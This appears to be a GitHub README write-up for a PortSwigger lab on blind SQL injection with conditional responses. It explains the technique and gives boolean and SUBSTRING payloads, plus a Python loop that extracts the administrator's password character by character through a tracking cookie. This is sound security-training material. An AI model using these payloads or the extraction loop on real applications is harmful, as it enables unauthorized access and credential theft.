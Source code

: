 # Blind SQL injection with conditional responses

[Lab in PortSwigger](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

## Definition
Consider an application that uses tracking cookies to gather analytics about usage. Requests to the application include a cookie header like this: `Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4`

When a request containing a TrackingId cookie is processed, the application determines whether this is a known user using an SQL query like this:
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

This query is vulnerable to SQL injection, but the results from the query are not returned to the user. However, the application does behave differently depending on whether the query returns any data. If it returns data (because a recognized TrackingId was submitted), then a "Welcome back" message is displayed within the page.

This behavior is enough to be able to exploit the blind SQL injection vulnerability and retrieve information by triggering different responses conditionally, depending on an injected condition. To see how this works, suppose that two requests are sent containing the following TrackingId cookie values in turn:
```
…xyz' AND '1'='1
…xyz' AND '1'='2
```

The first of these values will cause the query to return results, because the injected AND '1'='1 condition is true, and so the "Welcome back" message will be displayed. Whereas the second value will cause the query to not return any results, because the injected condition is false, and so the "Welcome back" message will not be displayed. This allows us to determine the answer to any single injected condition, and so extract data one bit at a time.

For example, suppose there is a table called Users with the columns Username and Password, and a user called Administrator. We can systematically determine the password for this user by sending a series of inputs to test the password one character at a time.

To do this, we start with the following input:
```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```

This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than m.

Next, we send the following input:
```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```

This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than t.

Eventually, we send the following input, which returns the "Welcome back" message, thereby confirming that the first character of the password is s:
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's

We can continue this process to systematically determine the full password for the Administrator user. 

## Notes
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user. 

**SQL Injection Validation**  
In order to confirm if the application is vulnerable or not to blind SQL injection, was sent two different payloads on the `cookies`. The first one with a SQL statement that doesn't return any result, as shown below:
![First payload](images/image01.png)
  
And the second with a `where` clause that always evaluates to true:

![Second payload](images/image02.png)
  
**Exploit**  
With this, a [python script](exploit.py) was created to inject a SQL statement that tries to guess the password character by character, position by position:

```python
# code snippet of the exploit
for char in string.printable:
    ...
    payload = f'{TRACKING_ID}\'+AND+SUBSTRING((SELECT+password+FROM+users+WHERE+username=\'{USERNAME}\'),{pos},1)=\'{char}'

    cookies = {'TrackingId': payload, 'session': SESSION_ID}
    response = session.get(url=BASE_URL, cookies=cookies)
```
  
![Exploit execution](images/image03.png)
  
![Login as administrator](images/image04.png)

## Key Words
> sql injection, blind, cookie, python